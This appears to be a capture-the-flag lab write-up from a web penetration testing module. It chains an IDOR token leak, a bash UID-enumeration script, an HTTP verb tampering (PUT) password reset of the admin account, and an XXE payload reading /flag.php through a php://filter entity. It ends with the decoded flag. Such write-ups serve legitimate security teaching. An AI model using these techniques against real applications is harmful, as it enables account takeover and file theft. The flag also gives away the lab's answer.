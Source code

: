 ```yaml
---
sticker: emoji//1f578-fe0f
---
```

## Scenario

You are performing a web application penetration test for a software development company, and they task you with testing the latest build of their social networking web application. Try to utilize the various techniques you learned in this module to identify and exploit multiple vulnerabilities found in the web application.

The login details are provided in the question below.

![](images/Pasted%20image%2020250217220316.png)

Let's visit the web application:

![](images/Pasted%20image%2020250217220549.png)

We can authenticate now:

![](images/Pasted%20image%2020250217220617.png)
## Identifying IDOR
---

We get sent to this dashboard, we can see settings, messages, invites, events, account settings and statistics, if we go to `settings`, we can see this:

![](images/Pasted%20image%2020250217220735.png)

We can change our password here, let's try sending a request to burp to analyze it:

![](images/Pasted%20image%2020250217221231.png)

We get an api call to `token/74`, also, we are assigned a cookie and an `uid`, in this case, we are assigned with `uid=74`, viewing the structure of the api call, we can see that the uid is strictly related to the token, let's try changing it to another uid to check the behavior:

![](images/Pasted%20image%2020250217221356.png)

For example, if we change it to 1, we get that token, that token is necessary for the following:

![](images/Pasted%20image%2020250217221433.png)

We can see that the `reset.php` function needs the token to function, since we can enumerate the tokens for other uids rather than ours, but, how do we even know which one is meant for admin user since we can only know tokens, that's when we need to go to our `HTTP History`, in there, we can check another `GET` request being made to `/api.php/user/`:


![](images/Pasted%20image%2020250217222105.png)

Since this behaves exactly like the token request, we can change the uid and token call to check other users, for example, with number 1:

![](images/Pasted%20image%2020250217222149.png)

## Enumerating Admin User
Now, it's time to automatize the uid search, let's begin with this bash script to enumerate users and view the uid of the admin user:

```bash
#!/bin/bash

# Target URL
TARGET="http://IP:PORT/api.php/user/"

# User-Agent
USER_AGENT="Mozilla/5.0 (X11; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0"

# Output file
OUTPUT_FILE="idor_results.txt"

# Clear previous results
> "$OUTPUT_FILE"

# Colored output
GREEN="\e[32m"
RED="\e[31m"
YELLOW="\e[33m"
RESET="\e[0m"

# Loop through user IDs
for uid in {1..100}; do
    RESPONSE=$(curl -s "$TARGET$uid" -H "User-Agent: $USER_AGENT")
    
    if echo "$RESPONSE" | grep -iq "admin"; then
        echo -e "${GREEN}[+] Admin Found! UID: $uid${RESET}"
        echo "$RESPONSE" | tee -a "$OUTPUT_FILE"
    fi

done

echo -e "${GREEN}[+] Enumeration complete. Results saved to $OUTPUT_FILE${RESET}"

```

After a bit, we get the following:

```bash
[+] Admin Found! UID: 52

{"uid":"52","username":"a.corrales","full_name":"Amor Corrales","company":"Administrator"}
```

We found the right uid, let's visualize the token:

![](images/Pasted%20image%2020250217230027.png)

Our admin token is:

```
{"token":"e51a85fa-17ac-11ec-8e51-e78234eb7b0c"}
```

If we try to reset the password, this happens:

![](images/Pasted%20image%2020250217230135.png)

We're getting `Access Denied`, we can bypass this restriction with `HTTP Verb Tampering`.

## HTTP Verb Tampering
---

To begin with, change the request to `PUT`:

![](images/Pasted%20image%2020250217230238.png)

Now we get something different, let's adjust the parameters:

![](images/Pasted%20image%2020250217230311.png)

And now we were able to successfully change the password using `PUT` verb, we can now log as the admin user:

```ad-note
`a.corrales`:`test`
```

![](images/Pasted%20image%2020250217230426.png)

## Identifying Admin Functionalities
----

Nice, we are now inside the admin panel and we got a new functionality: `Add Event`, let's check the request for this:

![](images/Pasted%20image%2020250217230553.png)

Let's create a simple test event:

![](images/Pasted%20image%2020250217230641.png)

Now, check the request:

![](images/Pasted%20image%2020250217230722.png)

We have a XML form, if we send the request, this is the response we're given:

![](images/Pasted%20image%2020250217230757.png)

It seems like the `name` property gets injected directly to the response, let's change it to something else and check:

![](images/Pasted%20image%2020250217230848.png)

If we inject `whoami`, we can see it indeed goes through, we do not get the output of the command but it helps us understand that it gets reflected in the response:

![](images/Pasted%20image%2020250217231014.png)

Now, knowing this, we can try exploiting XXE.

## Exploiting XXE
---

We can read the contents of our flag using the following payload:

```xml
<!DOCTYPE name [

  <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/flag.php">

]>
            <root>
            <name>&xxe;</name>
            <details>1</details>
            <date>0001-11-11</date>
            </root>
```

In this case, since we know the `name` is vulnerable, we can define an entity and then use it, this displays the following:

```
HTTP/1.1 200 OK

Date: Tue, 18 Feb 2025 04:41:32 GMT

Server: Apache/2.4.41 (Ubuntu)

Expires: Thu, 19 Nov 1981 08:52:00 GMT

Cache-Control: no-store, no-cache, must-revalidate

Pragma: no-cache

Vary: Accept-Encoding

Content-Length: 86

Keep-Alive: timeout=5, max=100

Connection: Keep-Alive

Content-Type: text/html; charset=UTF-8



Event 'PD9waHAgJGZsYWcgPSAiSFRCe200NTczcl93M2JfNDc3NGNrM3J9IjsgPz4K' has been created.
```

We got the flag in base64, we can even use burp's decoder to quickly decode that:

![](images/Pasted%20image%2020250217234359.png)

That outputs:

```
<?php $flag = "HTB{m4573r_w3b_4774ck3r}"; ?>
```

Flag is: 

```
HTB{m4573r_w3b_4774ck3r}
```

![](images/Pasted%20image%2020250217234432.png)

